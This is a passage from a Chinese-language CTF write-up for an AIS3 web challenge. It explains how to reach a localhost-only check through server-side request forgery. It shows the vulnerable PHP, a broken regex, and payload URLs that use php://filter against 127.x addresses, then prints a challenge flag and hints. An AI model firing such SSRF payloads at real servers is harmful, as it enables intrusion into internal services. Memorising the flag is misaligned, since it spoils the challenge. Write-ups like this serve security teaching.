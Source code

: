 這題目標是用 127.0.0.1 對自己做 request 去看 flag 的路徑。（注意：這裡常見的 `X-Forwarded-For` 是沒屁用的）

```php
if ($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {

    // show path of the flag
    die($_ENV['FLAG_HINT']);
}
```

但是這題出壞了，下面這行多了一個 `s`，所以好像有人用 `localhost` 就可以過。G_G

```php
if (preg_match('/https?:\/\/([^s\/]+)/i', $path, $g)) {
```

原本應該是這樣：

```php
if (preg_match('/https?:\/\/([^\/]+)/i', $path, $g)) {
```

原本的考點是利用 `127.0.0.0/8` 或者 redirect。

```
/?path=php://filter/convert.base64-encode/resource=http://127.87.87.87/
```

也可以塞大便到 hostname，然而 request 還是照樣能成功。

```
/?path=php://filter/convert.base64-encode/resource=http://@127.0.0.1
```


## d1v1n6 d33p3r (Web, 16 Solves)

拿到上一題的 flag 之後會順便給 hint：

```
                 ^`.                     o
 ^_              \  \                  o  o
 \ \             {   \                 o
 {  \           /     `~~~--__
 {   \___----~~'              `~~-_     ______          _____
  \                         /// a  `~._(_||___)________/___
  / /~~~~-, ,__.    ,      ///  __,,,,)      o  ______/    \
  \/      \/    `~~~;   ,---~~-_`~= \ \------o-'            \
                   /   /            / /
                  '._.'           _/_/
                                  ';|\
Your flag:
  AIS3{600d_j0b_bu7_7h15_15_n07_7h3_3nd}

Hints for d1v1n6 d33p3r:
- Find the other web server in the internal network.
- Scanning is forbidden and not necessary.

```

